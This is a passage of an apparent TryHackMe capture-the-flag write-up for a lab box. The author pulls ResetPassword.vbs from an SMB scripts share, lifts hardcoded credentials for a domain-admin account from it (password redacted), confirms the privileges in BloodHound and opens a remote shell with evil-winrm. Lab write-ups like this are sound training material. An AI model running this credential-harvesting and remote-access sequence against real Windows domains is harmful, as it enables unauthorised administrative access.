 ```bash
  vulnnet-rst.local                  Dr        0  Fri Mar 12 00:49:49 2021

		8771839 blocks of size 4096. 4555371 blocks available
smb: \> cd vulnnet-rst.local\
smb: \vulnnet-rst.local\> ls
  .                                   D        0  Fri Mar 12 00:53:40 2021
  ..                                  D        0  Fri Mar 12 00:53:40 2021
  DfsrPrivate                      DHSr        0  Fri Mar 12 00:53:40 2021
  Policies                            D        0  Fri Mar 12 00:50:26 2021
  scripts                             D        0  Wed Mar 17 04:45:49 2021

		8771839 blocks of size 4096. 4555371 blocks available
smb: \vulnnet-rst.local\> cd scripts
smb: \vulnnet-rst.local\scripts\> ls
  .                                   D        0  Wed Mar 17 04:45:49 2021
  ..                                  D        0  Wed Mar 17 04:45:49 2021
  ResetPassword.vbs                   A     2821  Wed Mar 17 04:48:14 2021

		8771839 blocks of size 4096. 4555371 blocks available
smb: \vulnnet-rst.local\scripts\> get ResetPassword.vbs 
getting file \vulnnet-rst.local\scripts\ResetPassword.vbs of size 2821 as ResetPassword.vbs (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
smb: \vulnnet-rst.local\scripts\> exit
```
{: .nolineno}
{: .nolineno}
I downloaded this **<span style="color:#fd77f8">ResetPassword.vbs</span>** and found the credentials for a new user 🔻
```bash
strUserNTName = "a-whitehat"
strPassword = "<PASSWORD>"
```
{: .nolineno}
{: .nolineno}
Lets see its privileges in bloodhound also 🔽
![Image](Pasted%20image%2020240227195623.png)
_BloodHound ingestor_
And from bloodhound I got that this user is a part of Domain Admin group directly 🔽
![Image](Pasted%20image%2020240227195822.png)
_Bloodhound pattern map_
That means I am Administrator technically so lets access the flag now 🔽
```powershell
┌──(kali🔥kali)-[~/Downloads/Tryhackme/VulnNet_Roasted]
└─$ evil-winrm -i 10.10.168.48 -u 'a-whitehat' -p '<PASSWORD>'
  
Evil-WinRM shell v3.5
   
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\a-whitehat\Documents> cd ..
*Evil-WinRM* PS C:\Users\a-whitehat> tree /f /a
Folder PATH listing
Volume serial number is 58D0-66AA
C:.
+---Desktop
+---Documents
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
```